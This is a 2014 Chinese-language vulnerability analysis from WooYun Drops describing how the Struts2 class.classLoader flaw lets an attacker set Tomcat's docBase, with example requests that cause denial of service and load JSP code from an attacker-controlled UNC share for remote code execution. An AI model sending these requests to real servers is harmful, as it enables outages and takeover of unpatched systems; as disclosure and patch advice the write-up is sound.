








# Struts2 Tomcat class.classLoader.resources.dirContext.docBase 赋值造成的 DoS 及远程代码执行利用!

2014/04/04 11:23 | [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

最近大家都在玩 Struts2 的 class.classLoader.官方在 S-20 的两漏洞,一个 commons-fileupload 造成的 DoS,这个就是让 cpu 慢点,不打补丁觉得也无所谓.另外一个,就是 class.classLoader 允许对象赋值.

看到大家总是在 tomcat8 上寻求利用,觉得很鸡肋(用户的应用更换 Tomcat 真没那么快),版本限制就是软肋.顿时,哥娇躯一震,发个无版本限制的利用,让大家提提神!

直接进主题,是可以对 Tomcat 的 docBase 属性直接赋值,`class.classLoader.resources.dirContext.docBase=x`

docBase 这个参数,是 Tomcat 进行应用目录映射路径配置的,如果赋值的地址不存在会发生什么?

## 0x01 细节

* * *

### 利用 1:造成 DoS(应用映射路径不存在,导致应用 404)

如图:



给当前应用目录,赋个不存在的地址:

```
?class.classLoader.resources.dirContext.docBase=不存在路径 
```

图:





这样当前应用,以后不管访问哪个地址都是 404 了(因为映射的目录不存在),造成 DoS 效果!

### 利用 2:远程代码执行

还是这个参数,既然可以指向任意地址,如果指向的地址映射目录,是攻击者可控的目录,那就是远程代码执行了.

docBase 参数有三种地址路径部署方式:

```
1.相对路径:以 Tomcat 的 webapps 目录为更目录
2.绝对路径:如,c://web/部署的应用目录 
```

但,还有一种地址配置方式,大家可能不会常用,那就是 UNC path(tomcat 是支持远程网络路径方式的):

```
3.UNC path(如,远程共享一个标准的 J2EE 应用目录) 
```

具体看这里：[`wiki.apache.org/tomcat/FAQ/Windows#Q6`](http://wiki.apache.org/tomcat/FAQ/Windows#Q6)

这里我内网其他主机共享一个标准的 J2EE 应用目录，如图:





本机访问共享：

```
//192.168.x.x/test 
```



```
http://127.0.0.1/s/example/HelloWorld.action?class.classLoader.resources.dirContext.docBase=//192.168.x.x/test 
```

这时应用的映射目录就是共享服务器的目录了,如图：



**注意这里，web 容器是当前服务器的，但运行的代码是共享服务器的 test 目录,java 代码是在当前服务器编译及运行的（这里不要混淆了！！！）**

test.jsp 的内容是，执行代码调用系统计算器的命令



那如果在公网上部署一个共享目录（无任何权限限制），那就是远程代码执行了。

当然，公网上部署一个共享目录也有网络限制，可能运营商限制了共享协议，被攻击服务器的操作系统是否支持 UNC path 等等，这里只是思路。主要是分享一下！

//用户还是老实打补丁,不要心存幻想!

版权声明：未经授权禁止转载 [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [并发请求导致的业务处理安全风险及解决方案](http://drops.wooyun.org/papers/831)
*   [Memcache 安全配置](http://drops.wooyun.org/papers/865)
*   [Google DNS 劫持背后的技术分析](http://drops.wooyun.org/papers/1207)
*   [J2EE 远程代码执行那些事儿(框架层面)](http://drops.wooyun.org/papers/914)
*   [浅谈基于 NTP 的反射和放大攻击](http://drops.wooyun.org/papers/926)